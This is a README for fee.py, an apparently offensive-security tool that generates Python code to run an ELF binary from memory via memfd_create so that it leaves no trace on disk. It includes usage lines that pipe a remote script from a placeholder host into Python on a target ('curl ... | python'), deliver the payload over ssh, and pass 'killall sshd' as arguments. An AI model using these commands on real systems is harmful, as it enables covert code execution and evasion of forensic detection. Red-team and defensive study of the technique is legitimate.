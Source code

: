 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__IMPORTANT!__ By default, the script uses the x86-64 syscall number for `memfd_create`. This is different for targets with a different architecture (32-bit x86, ARM, ARM64, MIPS, etc).

You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest.

If you need to change the syscall number, use the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-s NUM] [-a ARGV] [-c] [-p PATH] [-w CHARS] [-z LEVEL] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target
                        platform (default: 319)
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied
                        to execle (default: path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for
                        piping directly into ssh
  -p PATH, --python-path PATH
                        path to python on target if '-c' is used (default:
                        '/usr/bin/env python3')
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to
                        wrap to a newline (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```